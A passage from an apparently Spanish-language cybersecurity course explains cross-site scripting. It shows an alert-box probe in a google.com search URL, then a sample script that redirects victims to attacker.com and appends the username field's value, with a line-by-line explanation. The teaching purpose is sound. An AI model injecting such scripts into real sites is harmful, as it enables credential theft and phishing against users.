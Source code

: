 ### 💉 Inyectando scripts a la página atacada

Si inyectamos el texto `"¿Qué es XSS?"` a la página de google.com, tal vez podamos inyectar un script de JS que abra un nuevo modal:

```url
https://www.google.com/search?q=<script>alert('Hola Mundo')</script>
```

¡🎉 Hemos logrado que nuestro código sea incluido en la página de Google! [Pincha aquí para comprobarlo](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/pentesting-red-team/xaa-script-attempt.jpg?raw=true).

### 🔐 Google.com está protegido contra XSS

La mala noticia es que, a pesar de que nuestro código `<script>alert('Hola Mundo')</script>` aparece dentro del código fuente de google.com, ¡no se está ejecutando! 😕

Seguramente Google está transformando nuestro código en caracteres inofensivos para evitar que el navegador web los interprete.

### ⚠️ Ejemplos de scripts más maliciosos

Un simple `<script>alert('Hola Mundo')</script>` es inofensivo, pero el siguiente script sería mucho peor:

```js
<script>
    window.location = "http://attacker.com/phishing-page?data=" + document.getElementById('username').value;
</script>
```

Este ataque podría ser utilizado para redirigir a los usuarios a una página de phishing que parece legítima pero está controlada por el atacante. En el proceso, el atacante podría robar el nombre de usuario u otra información sensible que el usuario haya introducido en el sitio original. Esto podría llevar al robo de credenciales o a engañar al usuario para que proporcione más información en la página de phishing.

#### 🛠️ ¿Qué hace este código?

1. **Etiqueta `<script>`:** El atacante inyecta una etiqueta `<script>` en la página web. Cuando se carga la página, el navegador de la víctima ejecutará este script.

2. **🚨 Redirección maliciosa:** El script utiliza `window.location` para redirigir al usuario a una URL controlada por el atacante, en este caso, `http://attacker.com/phishing-page`. La parte clave de esta redirección es que el script también adjunta datos sensibles a la URL.

3. **🔓 Robo de información del usuario:** El script obtiene el valor del campo de entrada con el ID `username`, que podría ser el nombre de usuario o alguna otra información sensible que el usuario haya introducido en la página. Este valor se adjunta a la URL de la página de phishing y es enviado al servidor del atacante.

## Otros tipos de XSS
